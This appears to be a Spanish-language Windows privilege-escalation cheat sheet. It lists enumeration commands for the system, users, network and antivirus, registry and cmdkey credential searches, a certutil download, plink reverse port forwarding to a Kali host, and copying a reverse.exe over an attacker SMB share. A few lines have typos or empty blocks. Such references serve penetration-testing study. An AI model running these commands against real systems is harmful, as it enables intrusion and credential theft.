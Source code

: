 ### Enumeración del sistema[](#enumeracion-del-sistema)

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios[](#enumeracion-de-usuarios)

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red[](#enumeracion-de-red)
```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```
### Búsqueda de archivos[](#busqueda-de-archivos)
```python
#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs
```
### Búsqueda de credenciales[](#busqueda-de-credenciales)
```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus[](#enumeracion-de-antivirus)
```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas[](#enumeracion-con-herramientas-automaticas)
```python

````
### 

Funciones básicas[](#funciones-basicas)

#### 

Descarga de archivos[](#descarga-de-archivos)

certutil.exe -urlcache -f <URL> <OUTPUT_FILE>

#### 

Comprobación de permisos sobre un archivo[](#comprobacion-de-permisos-sobre-un-archivo)

accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>

#### 

Ejecución de un programa como otro usuario en Powershell[](#ejecucion-de-un-programa-como-otro-usuario-en-powershell)

powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"

#### 

Windows Port Forwarding[](#windows-port-forwarding)

plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>

#### 

Transferencia de archivos mediante smb[](#transferencia-de-archivos-mediante-smb)

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows

#### 

Desencriptado GPP[](#desencriptado-gpp)

gpp-decrypt "<hash>"
